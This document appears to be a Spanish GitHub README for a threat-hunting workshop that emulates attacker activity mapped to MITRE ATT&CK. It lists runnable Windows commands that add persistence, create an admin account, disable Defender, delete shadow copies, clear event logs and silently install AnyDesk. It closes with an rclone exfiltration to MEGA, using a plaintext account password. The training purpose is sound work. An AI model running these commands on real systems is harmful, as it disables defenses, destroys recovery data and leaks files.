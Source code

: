 # Workshop-CERT-2024
Que tal Hunter,

Bienvenidos a este Workshop creado para Threat Hunters.

Este repositorio contiene un conjunto de Scripts para Emular ataques avanzados operados por Humano. Además pueden encontrar todos los comandos en un solo archivo y un archivo más con los filtros para hacer hunting en Elastic Cloud.

Espero lo disfrute.

Marvin Amador
Threat Hunter

---

<center>

# **HACKING PLAYBOOK**
> Guia Para Hackers:

|Elaborado por|
|-|
|Marvin Amador|
|Threat Hunter|
 </center>

## Manual de Ataques:

- [x] Generar Rastros de un Ataque
	- [ ] EXECUTION
	- [ ] PERSISTENCE
	- [ ] PRIVILEGE ESCALATION
	- [ ] DEFENSE EVASION
	- [ ] DISCOVERY
	- [ ] COMMAND AND CONTROL
- [x] Capture The Flags
	- [ ] EXFILTRATION

## Objetivo

|Ejecutar comandos comunmente utilizados por atacantes en cada fase de la Matriz de Mitre Att&ck, esto le  permitirá al Hunter saber que es lo que debe Cazar. Por último, hay un CTF diseñado para que el Hunter comprenda como se vería un evento de Exfiltración de Datos. 
|-|

==**NOTA IMPORTANTE**:==
- La ejecución de los comandos se realiza desde el CMD. Únicaente algunos se realizan desde PowerShell y en cada sección está descrito. 
- Se recomienda que el Hunter ejecute todos los comandos de una sola vez y luego inicie la cacería en Elastic Cloud. Duración 10 min 
- Dejar para el final el CTF. 

# **LABORATORIO**

1. **EXECUTION**
- Técnica: **Scheduled Task (T1053)**
Este comando crea una tarea programada llamada "**Workshop Task 2024**" que ejecutará la calculadora de Windows diariamente a las 10:20 AM.
```
schtasks /create /tn "Workshop Task 2024" /tr "C:\Windows\System32\calc.exe" /sc daily /st 10:20
```

2. **PERSISTENCE**
- Técnica: **Registry Run Keys / Start Folder (T1060)**
Este comando agrega una entrada al Registro que ejecutará la calculadora de Windows al inicio del usuario actual.
```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "Workshop registry 2024" /t REG_SZ /d "C:\Windows\System32\calc.exe" /f
```

3. **PRIVILEGE ESCALATION**
Enumerar los miembros del grupo de administradores local es relevante para la fase de elevación de privilegios, ya que proporciona información sobre cuentas con privilegios elevados.
```
net user certuser Sisap2024 /add
net localgroup administrators certuser /add
```

4. **DEFENSE EVASION**
- Técnica: **Disable or Modify Tools (T1562.001)**
==Desactivacion de AV==
```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState /format:list
```
==**Ejecutar desde PowerShell:**==
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

- Técnica: **Data Destruction (T1485)**
```
WMIC.exe shadowcopy delete /nointeractive
vssadmin.exe delete shadows /all /quiet
```

- Técnica: **Clear Windows Event Logs (T1070.001)**
```
wevtutil cl system
wevtutil clear-log application
wevtutil clear-log security
wevtutil clear-log setup

```

5. **DISCOVERY**
Estos comandos proporcionan información sobre usuarios, grupos, unidades compartidas y controladores de dominio, y podrían ser parte de la fase de descubrimiento, donde un atacante busca comprender la topología del sistema y sus privilegios.
- Técnica: **System Information Discovery (T1082)**
Estos comandos se utilizan para obtener información sobre la identidad del usuario y los grupos a los que pertenece. Utiliza WMIC para obtener información sobre las unidades lógicas en el sistema
```
whoami
whoami /groups
systeminfo
wmic logicaldisk get name
```

- Técnica: **System Network Configuration Discovery (T1016)**
Estos comandos se utilizan para obtener información sobre la configuración de red en un sistema Windows.
```
ipconfig
arp -a
```
- Técnica: **Permission Groups Discovery (T1069)**
Enumera los miembros del grupo local de administradores, proporcionando información sobre cuentas con privilegios elevados.
```
net localgroup administrators
```

Enumera los miembros de grupos importantes como "Domain Admins" y "Enterprise Admins".
```
net group /domain "Domain Admins"
net group "Enterprise Admins" /domain
```
- Técnica: **Active Directory Reconnaissance (T1018)**
Estos comandos se utilizan para obtener información sobre el entorno de Active Directory, incluyendo controladores de dominio y confianzas de dominio.
```
nltest /dclist:windomain.local
nltest /domain_trusts
```
- Técnica: **Network Share Discovery (T1135)**
Muestra información sobre las comparticiones de red en el sistema.
```
net share
```

- Técnica: **System Owner/User Discovery (T1033)**
Muestra una lista de unidades disponibles en el sistema.
```
fsutil fsinfo drives
```

5. **COMMAND AND CONTROL**
- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.
==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk
Invoke-WebRequest -Uri 'https://download.anydesk.com/AnyDesk.exe' -OutFile 'C:\Windows\Temp\AnyDesk.exe'

# Instalar AnyDesk silenciosamente
Start-Process -Wait -FilePath 'C:\Windows\Temp\AnyDesk.exe' -ArgumentList '/S'
```

# **CAPTURE DE FLAG**

---
El Desafio Final del Workshop es aprender como los Adversarios roban información utilizando la herramienta **rclone**. Para esto, el hunter deberá realizar 2 actividades:
- Utilizar Rclone para exfiltrar un archivo de texto con el nombre del hunter
- Demostrar el evento en la consola de Elastic Cloud
---
## 6. **EXFILTRATION** 

- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.

==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk y configuralo
Invoke-WebRequest https://downloads.rclone.org/v1.56.0/rclone-v1.56.0-windows-amd64.zip -OutFile 'C:\Windows\Temp\rclone.zip'
Expand-Archive -Path 'C:\Windows\Temp\rclone.zip' -DestinationPath 'C:\Windows\Temp\'
cd C:\Windows\Temp\rclone-v1.56.0-windows-amd64
.\rclone.exe config

# configurando rclon
n
name: cert
storage: mega
user: huntercert01@gmail.com
password: NaQ@YGls9%cUHMGu
n
y
q
# Creemos un archivo para exfiltrar
echo CTF logrado > marvinamador.txt

# Comando para exfiltrar el archivo creado
.\rclone.exe copy "C:\Windows\Temp\rclone-v1.56.0-windows-amd64\marvinamador.txt" cert: -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 3 --bwlimit 5M

```

<center>
HAPPY HUNTING!
</center>



